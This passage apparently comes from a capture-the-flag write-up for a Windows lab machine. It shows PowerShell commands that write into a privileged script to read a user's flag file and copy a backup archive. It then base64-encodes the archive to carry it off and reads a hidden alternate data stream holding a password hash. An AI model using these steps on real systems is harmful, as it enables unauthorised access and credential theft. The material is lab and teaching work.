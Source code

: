{% highlight powershell %}
write-output "cat \users\decoder.minion\desktop\user.txt | out-file \temp\user.txt" | out-file \sysadmscripts\c.ps1
{% endhighlight %}

I was able to see the user.txt with <code>cat \temp\user.txt</code>.

I then copied the backup.zip file:

{% highlight powershell %}
write-output "copy-item \users\decoder.minion\desktop\backup.zip -destination \temp\backup.zip" | out-file \sysadmscripts\c.ps1
{% endhighlight %}

I then actually unzipped the backup.zip file using Powershell ([Reference](https://serverfault.com/questions/446884/unzip-file-with-powershell-in-server-2012-core)):

{% highlight powershell %}
[System.Reflection.Assembly]::LoadWithPartialName("System.IO.Compression.FileSystem") | Out-Null
[System.IO.Compression.ZipFile]::ExtractToDirectory("\temp\backup.zip","\temp")

PS C:\sysadmscripts> get-childitem \temp


    Directory: C:\temp


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---          9/4/2017   7:14 PM     386130 secret.exe                        
{% endhighlight %}

Running secret.exe, I just get the current working directory. Nothing special about it. I actually encoded the file in base64 so I could copy paste it and reproduce it on my own machine:

{% highlight powershell %}
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('\temp\backup.zip'))
$base64string
{% endhighlight %}

I took a while to print all the base64 content. I then copied all base64 output from the screen and pasted into vi in my attacker box. By decoding this file using the command base64 -d, I was able to get the original secret.exe. Ran strings against it, but nothing stood out.

I then remembered to check the Alternate Data Stream for the backup.zip file and I found a stream called "pass":

{% highlight powershell %}
get-item \temp\backup.zip -stream *

FileName: C:\temp\backup.zip

Stream                   Length
------                   ------
:$DATA                   103297
pass                         34
{% endhighlight %}

Getting the content of the stream, gave me a hash, which looked like a MD5 or most likely a NTLM:
